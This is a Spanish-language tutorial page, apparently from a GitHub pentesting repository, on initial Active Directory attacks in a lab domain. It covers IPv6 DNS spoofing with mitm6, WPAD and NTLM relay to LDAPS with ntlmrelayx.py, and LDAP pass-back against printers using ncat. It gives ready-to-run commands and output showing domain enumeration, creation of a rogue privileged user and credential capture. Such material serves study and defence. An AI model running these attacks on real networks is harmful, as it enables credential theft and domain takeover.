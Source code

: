 [<- Índice](../SistemasWindows.md)
# Vectores de ataque iniciales contra Active Directory
## *IPv6 DNS Spoofing*

> En las instalaciones por defecto de **Active Directory** el tráfico de red **IPv6** se encuentra habilitado independientemente de que la organización realmente le de uso o no. Dado que **IPv4** es el protocolo predominante en la red, si el tráfico **IPv6** no es gestionado adecuadamente (o deshabilitado), podemos aprovechar este tráfico a nuestro favor.

Por defecto y si no se ha configurado un servidor **DNS** adecuado, los ordenadores en el **Active Directory** realizan solicitudes **DHCPv6** en la red cada cierto tiempo, ==en busca de un servidor **DNS** para **IPv6**==. 

En una red donde no se toma en cuenta **IPv6**, lo más común es que **nadie** responda a estas solicitudes pues no se ha configurado ningún servidor para este rol.

Entonces, ¿que tal que nosotros nos hacemos pasar por el **DNS** solicitado?
De ser así, podemos resolver los nombres solicitados a la dirección **IPv6** que deseemos, tomando el control del tráfico **IPv6**.

En conjunto con el protocolo **WPAD**, podemos incluso redigir tráfico **NTLM** a nosotros y aprovecharlo para autenticarnos en otros servicios mediante su redirección (**Relay**).

Profundicemos un poco en el procedimiento a seguir:

1. Los ordenadores preguntan periodicamente por el **DNS** para **IPv6**
2. Impersonamos a dicho **DNS** en la red interna
3. Por defecto y por el protocolo **WPAD**, los ordenadores solicitan el archivo `wpad.dat` al servidor web con dominio `wpad.[dominio de la organización]`, por ejemplo, `wpad.dominio.com`.
4. Como "**DNS**", resolvemos dicho dominio a nuestra propia IP
5. Recibimos la solicitud y forzamos la autenticación **NTLM** del cliente.
6. Recibimos dicho tráfico **NTLM** y lo redirigimos al servicio con el que deseamos autenticarnos

A continuación, ahondaremos en las herramientas necesarias para este propósito.

#### MITM6 & `ntlmrelayx.py`

> La herramienta [MITM6](https://github.com/dirkjanm/mitm6) implementa el procedimiento necesario de **DNS Spoofing** para el tráfico **IPv6**. Simplemente hay que indicar el dominio principal pertinente a la organización para que la herramienta pueda identificar el tráfico relevante.

Esto se realiza con la bandera `-d` y de ser necesario, como en este laboratorio, indicar la interfaz de red para escucha con la bandera `-i`:

```bash
sudo mitm6 -d hfc.local -i vmnet8

# Starting mitm6 using the following configuration:
# Primary adapter: vmnet8 [00:50:56:c0:00:08]
# IPv4 address: 192.168.22.1
# IPv6 address: fe80::250:56ff:fec0:8
# DNS local search domain: hfc.local
# DNS allowlist: hfc.local
```

> En cuanto a la redirección de tráfico **NTLM**, ya conocemos al confiable `ntlmrelayx.py`, que en esta ocasión trabajara en conjunto con **MITM6** para completar el ataque.

Hay que indicar una serie de opciones a esta herramienta para que el ataque sea compatible:

- `-6`: Para indicar a la herramienta que capture tráfico **IPv6** también.
- `-t <objetivo>`: Para indicar como siempre el objetivo del **Relay**, para este ejemplo, nos enfocaremos en el servicio **LDAPS** del controlador de dominio para realizar una enumeración extensa del **Active Directory**.
- `-wh <dominio wpad>`: Con esta opción, indicamos que se active el servidor **WPAD** con el nombre indicado, para este ejemplo será `wpad.hfc.local`.
- `-l <directorio>`: Directorio donde se almacenará toda la información extraida

El comando final, dado que el controlador de dominio es `192.168.22.128`, se ve de la siguiente manera:

```bash
sudo ntlmrelayx.py -6 -wh wpad.hfc.local -t ldaps://192.168.22.128 -l ./lootdir
```

Ya con ambas herramientas a la escucha, solo resta esperar la solicitud **DHCPv6** periódica o algun evento que la fuerce, por ejemplo, el reinicio de alguna computadora.

Cuando ocurra, **MITM6** lo indicara en pantalla con entradas similares a:

```txt
IPv6 address fe80::192:168:22:129 is now assigned to mac=00:0c:29:d6:88:3c host=PC-OOKAMI.hfc.local. ipv4=192.168.22.129
IPv6 address fe80::192:168:22:129 is now assigned to mac=00:0c:29:d6:88:3c host=PC-OOKAMI.hfc.local. ipv4=192.168.22.129
Sent spoofed reply for wpad.hfc.local. to fe80::192:168:22:129
Sent spoofed reply for wpad.hfc.local. to fe80::192:168:22:129
```

Posteriormente, `ntlmrelayx.py` anunciará la solicitud del archivo del protocolo **WPAD**:

```txt
[*] HTTPD(80): Client requested path: /wpad.dat
```

![HACKAD_mitm6.png](imagenes/HACKAD_mitm6.png)

Y el ataque concluye una vez que `ntlmrelayx.py` anuncie: `[*] Domain info dumped into lootdir!`, pues habrá generado varios archivos en distintos formatos con toda la información que logró extraer de **LDAPS**.

```bash
ls lootdir

# domain_computers_by_os.html  domain_computers.json  domain_groups.json  domain_policy.json  domain_trusts.json          domain_users.html
# domain_computers.grep        domain_groups.grep     domain_policy.grep  domain_trusts.grep  domain_users_by_group.html  domain_users.json
# domain_computers.html        domain_groups.html     domain_policy.html  domain_trusts.html  domain_users.grep
```

Por ejemplo, si abrimos en el navegador el archivo `domain_users.html` podremos visualizar comodamente la información básica de varios usuarios, como nombres, fecha de creación y descripciones:

![HACKAD_mitm6_users.png](imagenes/HACKAD_mitm6_users.png)

Para este ejemplo, se capturó el inicio de sesión de un usuario normal. Sin embargo el ataque es aún más **crítico** si con suerte, capturaramos la sesión de un administrador abierta.

Podremos ver que a parte de que es posible enumerar aun más información, `ntlmrelayx.py` aprovecha los privilegios elevados para crear un **nuevo usuario** de nombre y contraseña aleatorios, agregarlo al grupo de **Enterprise Admins** y modificar el **ACL** para otorgarle privilegios especiales.

```txt
[*] HTTPD(80): Authenticating against ldaps://192.168.22.128 as HFC/ADMINISTRATOR SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] User privileges found: Create user
[*] User privileges found: Adding user to a privileged group (Enterprise Admins)
[*] User privileges found: Modifying domain ACL
[*] Attempting to create user in: CN=Users,DC=hfc,DC=local
[*] Adding new user with username: VceBBXoXmq and password: e:RUgxQ,6PekS36 result: OK
[*] Querying domain security descriptor
[*] Success! User VceBBXoXmq now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20250602-220901.restore
[-] New user already added. Refusing to add another
[-] Unable to escalate without a valid user, aborting.
[*] Dumping domain info for first time
[*] Domain info dumped into lootdir!
```

Podemos ver que sin duda es un **vector de ataque** poderoso, pero debemos tomar en cuenta que realizar este **Spoofing** durante demasiado tiempo podría alterar el comportamiento del tráfico de red, pues aunque en distintos protocolos, hay 2 servidores **DNS** resolviendo nombres.

Por esto se recomienda ejecutar este ataque en **Sprints** de 10 a 15 minutos y para permitir que la red se stabilice entre ataques.

---
## *LDAP Pass-Back*

Es común que dispositivos como **impresoras** o **escáneres** involucrados en la red, sean configurados para autenticarse mediante **LDAP** en el **directorio activo**.

Pero si no se protege adecuadamente el acceso a estos dispositivos, podríamos aprovechar estas conexiones a nuestro favor.

> El escenario típico de un ataque **Pass-Back** es aquel donde logramos entrar al panel administrativo de la impresora, por ejemplo mediante credenciales por defecto, y mediante este panel podemos ya sea ==cambiar la dirección IP del servidor *LDAP* configurado==, para poner la nuestra, o ==forzar la comunicación en texto plano (**LDAP** puro)==.

Posteriormente, se busca forzar una conexión por parte de esta impresora para capturar el tráfico pertinente e identificar las **credenciales** en texto plano de la cuenta que esté utilizando esta impresora.

En caso de haber forzado la comunicación en texto claro, bastará con estar a la escucha y filtrar los paquetes capturados para identificar el de la impresora que contenga las credenciales.

Por otra parte, si logramos reconfigurar la dirección del servidor **LDAP** a nuestra máquina atacante independientemente del cifrado, podemos ponernos a la escucha en un puerto local y forzar la conexión para recibir las credenciales.

Esto se realiza típicamente con **Ncat**, por ejemplo:

```bash
sudo ncat -lnvp 389
```

En caso de que la comunicación sea cifrada (**LDAPS**) se debería añadir la bandera `--ssl` al comando anterior para que soporte este tipo de conexiones.

Así, podremos recibir la conexión e identificar las credenciales en texto plano para su uso posterior en otros vectores de ataque.

![HACKAD_passback.png](imagenes/HACKAD_passback.png)

---
# Enlaces

[<- Vectores de ataque iniciales](HackAD_Begginers_Initial.md) | [Acceso a Shell ->](HACKAD_Begginers_InitialShell.md)